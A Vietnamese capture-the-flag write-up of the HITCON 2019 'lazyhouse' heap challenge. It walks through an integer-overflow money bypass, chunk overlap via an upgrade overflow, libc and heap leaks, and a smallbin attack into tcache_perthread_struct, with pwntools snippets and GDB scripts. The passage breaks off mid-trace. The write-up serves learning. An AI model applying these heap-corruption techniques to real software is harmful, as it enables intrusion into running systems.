# Hitconctf lazyhouse  

## Mở đầu  

Trong thời gian ôn luyện chuẩn bị cho svattt, mình có lục lại mấy challenge cũ của các giải ra làm. Challenge này mình thấy khá hay, nhiều kĩ thuật hữu ích nên muốn note lại một chút.  

Đây là một bài heap của giải `hitcon 2019`, tác giả là `Angel boy` =￣ω￣= Để làm được challenge này, cần nắm được các kĩ thuật liên quan tới tcache, tcache perthread struct, unsorted bin và small bins. Mình cũng không làm được bài này hoàn thiện, mà có tham khảo cách làm tại [đây](https://faraz.faith/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis/). Dựa vào tư tưởng trong bài writeup trên, mình mode lại theo hướng ban đầu của mình.  

## Các chức năng chính  

  

Chương trình chia ra làm 5 chức năng chính. Chúng ta được quyền mua, bán, xem, upgrade ngôi nhà. Đặc biệt có một option mua biệt thự luôn.  

Kiểm tra chức năng đầu tiên, ta biết được trong tài khoản có 1 số tiền nhất định :  



Chúng ta được phép mua 8 căn nhà, lưu trên bss theo struct :  

```
struct house {
    char * description;
    long size;
    long sell_price;
}
```

Chúng ta được tùy chọn malloc một vùng nhớ tùy ý có size > 0x7f. Tuy nhiên ở đây tồn tại một lỗ hổng, đó là khi malloc một vùng nhớ quá lớn, thì calloc sẽ trả về error nhưng tiền thì vẫn bị trừ 😂😂 Tuy nhiên, chúng ta cũng cần thỏa mãn điều kiện `0xda * size <= amount` nữa. Với một chút điều chỉnh của size, chúng ta sẽ vượt qua được đoạn check này :v  
Có một điều đặc biệt là hàm này dùng `calloc` chứ không phải `malloc`.  

Hàm `show` cho phép chúng ta xem chi tiết ngôi nhà :  

  

Hàm `sell` bán nhà :  

   

Hàm sell sau khi free con trỏ có clear biến nên không có lỗi UAF hay double free ở đây.  

Hàm `upgrade` :  

  

Cho phép chúng ta chỉnh sửa description tối đa hai lần lên size `size + 32`. 😐 Bùm lỗi tràn khá là hiển nhiên ở đây. Ta sẽ có 2 lần như vậy.  

Cuối cùng là mua biệt thự :  

  

Tuy nhiên, nó đòi hỏi trong tài khoản cần có đủ số tiền. Mà mình thì làm gì giàu như thế. Trước tiên phải trở thành tỉ phú cái đã. Điều thú vị là hàm này dùng `malloc`. Vậy có sự khác biệt gì ở đây?

Về mặt chức năng, `calloc` sẽ clear vùng nhớ khi cấp phát còn `malloc` thì không. Về mặt `exploit` thì có một điểm cơ bản khác nhau là `calloc` sẽ không lấy trong `tcache` còn `malloc` thì có :v Nhưng khi free thì nó vẫn theo cơ chế thông thường. Điểm khác biệt này là mấu chốt khiến bài này trở nên khó vl 🤣  

Nắm được các chức năng chính cũng như 2 lỗi cơ bản, giờ chúng ta sẽ tiến hành các giai đoạn tấn công.  

## STEP 1 : Trở thành tỉ phú  

Ở ngoài đơi, mua biệt thự thì khó đấy, nhưng trong này thì có vẻ dễ hơn chút.  

Để vượt qua đoạn check `size * 0xda <= amount`, chúng ta chỉ cần thực hiện tràn số kiểu long là được. Ví dụ, nếu ta nhập `size = (1 << 64) // 0xda + 1` thì `size * 0xda` sẽ bị tràn và trở thành 1 số rất nhỏ. Ez bypass.  

Sau đó, tuy `calloc` sẽ error nhưng `size` và `sell_price` vẫn được lưu lại. Khi đó, ta chỉ cần bán căn nhà vừa rồi đi, thì trong tài khoản sẽ được cộng lại `6 * size`. `6 * size` vẫn là một số cực lớn nên sẽ cho ta vô hạn tiền.  

```python
buy(0, (1 << 64) // 0xda + 1)
sell(0)
```
Giàu rồi, giờ thích mua gì cũng được :v  

## STEP 2 : Leak địa chỉ  

### STEP 2.1 : Setup debug  

Trước khi vào một bài, cái quan trọng không kém là có một script debug thích hợp :v  


```python
def get_PIE(proc):
    memory_map = open("/proc/{}/maps".format(proc.pid),"rb").readlines()
    return int(memory_map[8].split(b"-")[0],16)

def debug(idx) :
    pie = get_PIE(p)
    cmd = f"""
    """
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    if args.GDB == str(idx):
        gdb.attach(p, cmd)
```

Mình thường dùng script trên để thiết lập debug. Phần `get_PIE` phải tùy chỉnh theo từng bài nếu là `LD_PRELOAD`. Mỗi cái debug sẽ có một cái `id`, mình sẽ pass tham số cho `args.GDB` để mình có thể đặt breakpoint theo từng bước một, đỡ phải xóa đi viết lại nhiều lần.  

Chúng ta sẽ đặt breakpoint tại hàm in `menu`, như vậy sau một thao tác chương trình sẽ dừng. Đồng thời, cần loại bỏ `alarm signal`.  

```python
cmd = f"""
handle SIGALRM ignore
b * 0x{pie+0x233f:x}
"""
```

Mình cũng viết thêm một script để xem giá trị của các ngôi nhà cho dễ .Script đơn giản là lặp qua các căn nhà và in ra giá trị description, size, giá của từng nhà. Mình không muốn mỗi lần lại phải lặp đi lặp lại các thao tác này, rất mất thời gian.    

```python
cmd = f"""
define pwn
    set $lhouse = {pie+0x5060}
    set $i=0
    while ($i < 8)
            printf "House %d: \\n", $i
            set $tmp = $lhouse + $i * 24
            set $des = *(long *)$tmp
            set $size = *(long *)($tmp+8)
            set $price = *(long *)($tmp+16)
            printf "\\tDescription : 0x%lx\\n", $des
            printf "\\tSize : 0x%lx\\t", $size
            printf "\\tPrice : 0x%lx\\n", $price
            set $i=$i+1
    end
end
"""
```

   

Mọi công việc hậu cần đã chuẩn bị xong, giờ tới màn manipulate heap nào (*￣3￣)╭  

### STEP 2.2 : Create overlap chunk size 0x4b0

Chúng ta sẽ tạo một số vùng nhớ như sau :  

```python
buy(0, 0x410)
buy(1, 0x410)
buy(2, 0x80)
buy(3, 0x80)
```

Tận dùng lỗi tràn tại phần `upgrade`, ta sẽ sửa size của chunk 1 thành `0x4b1`. Như vậy chunk 1 thay vì trỏ tới chunk 2 giờ nó sẽ trỏ tới chunk 3. Chúng ta sẽ có một vùng nhớ lớn hơn mức mà nó có.  

  

Nễu xem bằng lệnh `heap` trong `pwndbg` mà không bị corrupt thì tính toán size đã đúng :v Mình hay bị nhầm khoảng 0x10 bytes :v Confuse vl.  

Nếu chúng ta free chunk này, chuyện gì sẽ xảy ra?🤔  

  

Nó sẽ được đưa vào `unsorted bin`. Còn chunk 2 bị overlap thì nó vẫn còn đó :v Ta có được overlap chunk.  

Tại sao lại là size `0x410`. `0x410` là ngưỡng để 1 chunk thoát khỏi `tcache` và đưa vào `unsorted bin`. Như đã nói bên trên, `calloc` sẽ không lấy trong tcache nên ta sẽ không thể tận  dụng được nhưng chunk đã bị free. Do đó ta cần có `unsorted bin`.  

Tuy nhiên, khi free `unsorted bin`, cơ chế check sẽ phức tạp hơn chút. Chúng ta phải đảm bảo hai chunk kế tiếp khả dụng :v về mặt metadata thôi :v  

Trong trường hợp này, ta đã có sẵn chunk 3 và top chunk nên không cần quan tâm nhiều.  

### STEP 2.3 : Leak libc, heap  
Không có UAF thì sao để leak đây :v  

Tại đây, chúng ta sẽ tận dụng 1 cơ chế khá là hay của unsorted bin. Khi chúng ta `malloc` một vùng nhớ < size hiện tại của unsorted bin, nó sẽ update con trỏ `FD, BK` tới vùng nhớ mới bằng : ```new_addr = old_addr + size```.  

Hmm ta có thể malloc 1 vùng nhớ để nó chuyển `FD, BK` update tới chunk 2 đã bị overlap :v Sau đó , chỉ cần dùng chunk 2 để in ra thôi 😋  

```python
buy(1, 0x410)
show(2)
```

Sau bước này, unsorted bin còn lại `0x90`. Do đó nếu malloc tiếp một size như thế ta sẽ được một con trỏ nữa trỏ tới đúng chunk 2 :v Bùm thế là hiện tại ta có tới 2 con trỏ trỏ tới chunk 2.  

  

Libc 2.29 có thay đổi cấu trúc của `tcache_entry` :  

```c
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```

Trên các phiên bản trước, các địa chỉ nằm trong tcache bins sẽ tạo thành liên kết đơn. Do đó, `BK` sẽ không được sử dụng. Vậy nên, người ta thay phần đó bằng `tcache`. Điều này còn chống lỗi double free 😥  
Tuy nhiên trong bài này, chúng ta có thể leak heap nhờ nó.  

  

```python
buy(4, 0x80)
sell(2)
show(4)
```

Xong công việc đơn giản nhất là leak :v Để dễ làm việc thao tác, clear các con trỏ đã có đi :vv  

```
sell(0)
sell(1)
sell(3)
```

Không thể clear chunk 4 vì gặp lỗi double free :'( . Dead pointer.  

## STEP 3 : Create fake chunk on tcache perthread struct  

Bước đầu tiên, mình sẽ chuẩn bị vùng nhớ như sau :  

```python
buy(0, 0x820)
buy(1, 0x410)
buy(2, 0x410)
buy(3, 0x80)
buy(5, 0x80)
buy(6, 0x80, b'a' * 0x78 + p64(0x91))
buy(7, 0x80, b'a' * 0x78 + p64(0x91))
```

Vùng nhớ này sẽ được dùng trong các bước sau, mình sẽ note lại lí do.  
Đầu tiên, chunk 0 tồn tại để clear hết unsorted bin.  

### STEP 3.1 : Create overlap chunk  

Tiếp tục làm tương tự như bước lần trước, ta sẽ tạo một overlap chunk từ chunk 2 trỏ thẳng tới fake chunk có size là 0x91 trong chunk 6. Do vậy, trong trường hợp này có 3 chunk bị overlap là chunk 3,5, 6. Đẩy nó vào unsorted bin. Ta có một unsorted bin có độ lớn là `0x5c0`.  
Do các điều kiện check khi free `unsorted bin` nên chúng ta cần tạo 2 chunk giả tại chunk 6 và chunk 7 :v Lí do ta không trỏ thẳng tới chunk 7 sẽ được giải thích sau :v  

```
upgrade(1, b'a' * 0x418 + p64(0x5c1))
sell(2)
```

### STEP 3.2 : tạo tcache 0x20, 0x30  

Với 2 chunk bị overlap như trên, ta có thể malloc 1 vùng nhớ mới để ghi đè lên size của hai thằng này thành `0x21` và `0x31`.  
Khi free tcache nó không kiểm tra điều kiện nhiều nên sẽ không có lỗi gì bị detect.  

```python
fake_chunk = flat({
    0x418 : [0x1b1],        # <-- chunk 3
    0x4a8 : [0x21],         # <-- chunk 5
    0x538 : [0x31]          # <-- chunk 6
}, length=0x5b0, filler=b'a')
buy(2, 0x5b0, fake_chunk)
```

Dùng hàm `flat` trong `pwntools` để setup cho tiện :v Các offset thì tùy chỉnh bằng GDB thôi. 

Sau đó, free 2 chunk 5, 6 ta sẽ được 2 tcache 0x20, 0x30.  

   

Size của chunk 3 ta sẽ thiết lập là `0x1b0` :v Sẽ dùng cho phần sau :vv   

### STEP 3.3 : Tạo size giả cho tcache_perthread  

```c
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

Sau bước trên, `tcache_perthread_struct` của chúng ta trở thành :  

  

Size của fake chunk hiện tại đang là 0x0 :v Éo ổn. Ta cần tạo size giả cho nó.  

Phía trên tcache entries là `counts`. Do vậy, nếu ta put 1 chunk size `0x3a0` vào tcache thì counts sẽ tăng lên một tạo thành chunk size 0x100.  

  

## STEP 4 : Small bin attack  

### STEP 4.1 : Tạo small bins  

Ta phải tạo được 1 vùng small bins đồng thời có thể kiểm soát giá trị của nó.  
Nhớ lại chunk 3 ở phần trước, ta đã điều chỉnh size của nó thành `0x1b1`.  
Chunk 3 lúc này sẽ trỏ thẳng tới chunk 7. Đó là lí do ta không thể trỏ thẳng chunk2 tới chunk 7. Vì khi đó, `prev_inuse` của chunk 7 sẽ bị clear khi free chunk 2 nên chunk 3 sẽ không thể free được nữa (double free detected).  

Trước tiên, chúng ta sẽ đưa chunk3 vào unsorted bin. Cần fill hết tcacheb size `0x1b0`.  

```python
for i in range(7) :
    buy(6, 0x1a0)
    sell(6)
```

Tiếp đến, chuyển unsorted bin tới địa chỉ của house 5 bằng cách `calloc(0x90)`. Rồi đưa nó vào `small bins` bằng cách `malloc` một vùng nhớ đủ lớn.  

```
buy(3, 0x90)
buy(5, 0x200)
sell(5)
```

  

  

Ta sẽ gọi tắt fake chunk trên `tcacheb_perthread` là `tcache`. Sau khi thiết lập như trên, `tcache->fd` sẽ trỏ tới `smallbins`.  

### STEP 4.2 : Create fake small bin linked list  

Khi tiến hành `malloc` lấy từ `smallbin`, thì nó sẽ thực thi đoạn code này :  

  

Lưu ý, size của ta hiện tại là `0x110` cho nên cần `malloc(0x100)` thì mới đi vào đoạn code này :v Không nó đi vào đoạn code nào đó khác ấy.  

Chúng ta cần vượt qua đoạn check `bck->fd != victim`.  

Hiện tại double linked list của `smallbins` chỉ có `0x5555558a490`.  

  

`0x20` là chunk 5. `0x30` là chunk 6.  
Chúng ta sẽ tiến hành ghi đè lên `0x20->BK = tcache`.  

Khi đó, theo đoạn code thì `bck = tcache`.  
Do đó, `bck->fd = tcache->fd == victim` sẽ được thỏa mãn.  

Chúng ta cũng cần thiết lập để tạo thành double linked list dài hơn cho lần malloc tiếp theo. Vì vậy, sau khi thiết lập, double linked list sẽ trông như sau :  

  

Để thực hiện được lỗi tràn này, ta sẽ dùng `chunk 2` với size `0x5b1` lần trước :v Vì nó vẫn overlap hết mấy chunk này :v  

```python
sell(2)
fake_chunk = flat({
    0x4b8 : [0x111, libc.address + 0x1e4da0, heap + 0x30],
    0x548 : [0x31, 0x0, heap + 0x30]
}, length=0x5b0, filler=b'\0')
buy(2, 0x5b0, fake_chunk)
```

  

Lưu ý con trỏ tại smallbins trỏ từ phần size :v còn con trỏ của tcache trỏ từ phần `FD`. Confuse chỗ này một chút :v  

### STEP 4.3 : malloc into tcache perthread struct  

Sau lần malloc đầu tiên, small bins sẽ trở thành :  

  

Do vậy, trong lần malloc kế tiếp, nó sẽ trả về `tcache_bins`. Đồng thời, do trong lần malloc trước nó đã clear chunk 0x30 nên ta cần thiết lập lại size ở đây, ta có payload như sau :  

```python
fake_chunk = flat({
    0x88 : [0x31, heap + 0x30]
}, length=0xf0, filler=b'\0')
buy(5, 0x100), fake_chunk)
```

Tiếp đến, malloc tiếp theo sẽ trả về `tcache`.  
Về lí thuyết là vậy nhưng có vẻ như `smallbins attack` còn 1 điểm mà chúng ta cần lưu tâm, `tcache`. 😥  

#### STEP 4.3.1 : Trace segfault  
Nếu làm đơn thuần như trên, chương trình sẽ crash tại hàm `_int_malloc`.  

  

Đến đây giờ sao :v Chương trình không in ra lỗi do đó khó trace trong source code của malloc.  
Ta sẽ viết 1 script gdb để trace dần lên xem trước khi nhảy tới đây thì hàm nào gọi nó.  

```gdb
define trace
while ($rip != _int_malloc+1453)
    set $old = $rip
    si
end
printf "Call  : 0x%lx\\n", $old
end
```

Đoạn script trên đơn giản là sẽ thực hiện từng lệnh cho tới khi gặp `_int_malloc+1453` thì dừng.  



Trace lên một vài lệnh, ta dự đoán `_int_malloc+1441` là dòng đầu tiên của block trước khi rẽ nhánh :v  Trace bằng đoạn code trên, ta có :  

```
0x7f8fe35f6c44 <_int_malloc+1412>:   cmp    rsi,rax
0x7f8fe35f6c47 <_int_malloc+1415>:   je     0x7f8fe35f6860 <_int_malloc+416>
0x7f8fe35f6c4d <_int_malloc+1421>:   mov    r14,QWORD PTR [rax+0x18]
0x7f8fe35f6c57 <_int_malloc+1431>:   cmp    r12,r9
0x7f8fe35f6c5a <_int_malloc+1434>:   je     0x7f8fe35f6c61 <_int_malloc+1441>
```
Trước khi vào đây, nó đã so sánh `r12` với `r9`.  Tiếp tục trace thôi.  

Sau một hồi trace, mình dừng lại tại điều kiện so sánh này (cũng ko lâu lắm) :  

